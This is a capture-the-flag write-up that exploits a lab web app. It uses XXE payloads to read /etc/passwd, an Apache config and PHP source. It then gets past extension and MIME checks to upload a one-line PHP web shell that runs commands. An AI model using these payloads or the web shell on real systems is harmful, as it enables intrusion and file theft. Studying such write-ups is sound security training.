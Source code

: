 ## Anonymous - Solution

![](img1.png)

When we submit the form, the data is sent to the backend in XML format. And data we submit (name) is returned.

As XML is used, we could try checking if its vulnarable to XML external entity (XXE) injection.

### Reading /etc/passwd

To send a request, you can use Burp Suite repeater or firefox dev tools itself. Here I'll be using firefox dev tools.

The send body was..
```xml
<?xml version="1.0" encoding="UTF-8"?>
<root>
  <name>hello</name>
  <email>a@a.com</email>
</root>
```

New payload with XXE
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<root>
  <name>&xxe;</name>
  <email>a@a.com</email>
</root>
```

![](img2.png)

Bingo!... We were able to read /etc/passwd. This confirms that the website is vulnerable to XXE injection.

To understand more about the website, we can try to read the web files. For that we need to know the directory in which the web app files are kept.

Checking the server config files is a good start.

```
HTTP/1.1 200 OK
Date: Fri, 03 Oct 2025 10:16:25 GMT
Server: Apache/2.4.65 (Debian)
X-Powered-By: PHP/8.2.29
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 335
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
```

By checking the response headers, we can conclude that the HTTP server used is apache2.

The location of default site config file in Apache2 is
```
/etc/apache2/sites-available/000-default.conf
```

Using the XXE injection vulnerability, we can read this file.

Payload to read the file

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/apache2/sites-available/000-default.conf"> ]>
<root>
  <name>&xxe;</name>
  <email>a@a.com</email>
</root>
```

![](img3.png)

Yep, we got the file. Now decode it to view its contents.

![](img4.png)

By looking at the config file, we can see a vhost with the name `anonupload.cyberquest`. With the document root at `/var/www/anonupload.cyberquest`

add the server name & ip to you hosts file.

```bash
echo "35.200.207.70 anonupload.cyberquest" | sudo tee -a /etc/hosts
```

Now we can visit the site by going to `http://anonupload.cyberquest/`

On visiting the website, its asking for a password. We can use the XXE injection vuln to read the index.php for the new website we found.

XXE payload
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/anonupload.cyberquest/index.php"> ]>
<root>
  <name>&xxe;</name>
  <email>a@a.com</email>
</root>
```

Get the base64 and decode it.

```php
    if (isset($_POST['password']) && $_POST['password'] === "supersecret1234564_niceeeee132213") {
        $_SESSION['auth'] = true;
        $message = "Login successful!";
        $message_type = "success";
    }
```

Now we got the password for logging in
`supersecret1234564_niceeeee132213`

Once logged in, we are greeted with a file uload page.

Looking at the php code, we can see multiple security methods implemented to prevent file upload vulnerabilities.

1) Checking the extension
```php
$ALLOWED = ['png', 'jpeg', 'gif', 'pdf', 'zip'];

function is_valid_extension($filename) {
    global $ALLOWED;
    $ext = explode('.', $filename)[1];
    foreach ($ALLOWED as $allowed_ext) {
        if (stripos($ext, $allowed_ext) !== false) {
            return true;
        }
    }
    return false;
}
```
By looking at the code we can see a flaw. The code splits the filename based on `.`. and takes the string at 1st index to extension checking.

So a filename with `shell.php` will get rejected but a filename with `shell.gif.php` will pass this check. As the sting at 1st index after splitting is `gif`.

2) Checking MIME type
```php
    if (isset($_FILES['file']) && $_SESSION['auth'] === true) {
        $file = $_FILES['file'];
        $filename = $file['name'];
        $tmpname = $file['tmp_name'];
        $mime = mime_content_type($tmpname);

        $allowed_mimes = [
            'image/png',
            'image/jpeg',
            'image/gif',
            'application/zip',
            'application/pdf'
        ];

        if (!in_array($mime, $allowed_mimes)) {
            $message = "Invalid MIME type!";
            $message_type = "error";
        } elseif (!is_valid_extension($filename)) {
            $message = "Invalid file extension!";
            $message_type = "error";
        } else {
            $ext = pathinfo($filename, PATHINFO_EXTENSION);
            $newname = bin2hex(random_bytes(8)) . '.' . $ext;
            move_uploaded_file($tmpname, "uploads/" . $newname);
            $message = "File uploaded successfully: /uploads/$newname";
            $message_type = "success";
        }
    }
```

Here the MIME type of the file is checked. To trick the system, we can use a GIF header (image/gif is an allowed MIME type) at top our of php code to bypass this check.

## Exloiting the Upload vuln

Now we know how to bypass the two security checks. So lets create a php code that will hel us run commands on the system.

Create a file named `shell.gif.php` and the GIF magic bytes at top of the file. (GIF89a)

```php
GIF89a;
<?php system($_GET['cmd']); ?>
```

Lets upload this file.

![](img5.png)

It got uploaded. Now we can run system commands and get the flag.

![](img6.png)

